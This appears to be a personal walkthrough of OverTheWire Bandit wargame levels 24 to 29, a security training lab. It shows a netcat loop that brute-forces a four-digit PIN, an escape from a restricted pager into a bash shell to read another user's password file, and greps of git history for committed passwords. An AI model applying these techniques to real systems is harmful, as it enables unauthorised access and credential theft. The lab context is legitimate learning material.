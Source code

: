 ##### 24

```bash
for i in {0..9999}
do
    printf "%s %04d\n" $pass $i
done \
| nc localhost 30002 \
| grep -Ev "(Wrong|I am the pincode checker)"
```

##### 25

Copy SSH key

##### 26

Check the shell in use while logged in as `bandit25` e.g. `grep bandit26 /etc/passwd`.

Collapse your terminal real smallllllll so that `more` shows up, then you can
```
v
set shell=/bin/bash
:shell
./bandit27-do cat /etc/bandit_pass/bandit27
```

##### 27

```bash
mkdir -p /tmp/andrewflbarnes27
cd /tmp/andrewflbarnes27
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
# enter yes
# enter bandit27 password
cd repo
cat README
```

##### 28

```bash
mkdir -p /tmp/andrewflbarnes28
cd /tmp/andrewflbarnes28
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
# enter yes
# enter bandit28 password
cd repo

git log -p | grep "^+.*password:" | grep -vE "(xxxxxx|TBD)"
```

##### 29

```bash
mkdir -p /tmp/andrewflbarnes29
cd /tmp/andrewflbarnes29
git clone ssh://bandit29-git@localhost/home/bandit29-git/repo
# enter yes
# enter bandit29 password
cd repo

git log --all -p | grep "^+.*password:" | grep -v "no passwords"
```
